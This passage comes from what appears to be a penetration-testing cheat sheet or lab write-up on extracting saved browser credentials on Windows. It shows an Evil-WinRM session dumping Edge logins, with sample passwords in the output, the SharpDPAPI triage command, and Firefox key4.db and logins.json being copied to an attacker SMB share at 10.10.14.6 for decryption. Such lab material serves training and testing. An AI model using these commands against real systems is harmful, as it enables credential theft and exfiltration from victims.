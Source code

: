```powershell
                                        the format "%TEMP%\$browser-cookies.json"
```

Giving it the `logins` command will dump the same data as we did earlier :

```powershell
*Evil-WinRM* PS C:\windows\debug\wia> .\scium.exe logins
[*] Beginning Edge extraction.

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://somewhere.com/action_page.php
Username : bob.wood@windcorp.htb
Password : SemTro32756Gff

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://google.com/action_page.php
Username : bob.wood@windcorp.htb
Password : SomeSecurePasswordIGuess!09

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://webmail.windcorp.com/action_page.php
Username : bob.woodADM@windcorp.com
Password : smeT-Worg-wer-m024

[*] Finished Edge extraction.

[*] Done.
```

### Using SharpDPAPI :

```bash
SharpDPAPI.exe machinetriage
```

## # `Extract Firefox Passwords` -

 [Firepwd](https://github.com/lclevy/firepwd)

You will need two files from the profile, `key4.db` and `logins.json`.Copy them to your local machine :

```powershell
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> net use \\10.10.14.6\share /u:nap nap
The command completed successfully.

*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> copy key4.db \\10.10.14.6\share\
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> copy logins.json \\10.10.14.6\share\
```

With those two files, [Firepwd](https://github.com/lclevy/firepwd) will decrypt any stored passwords :
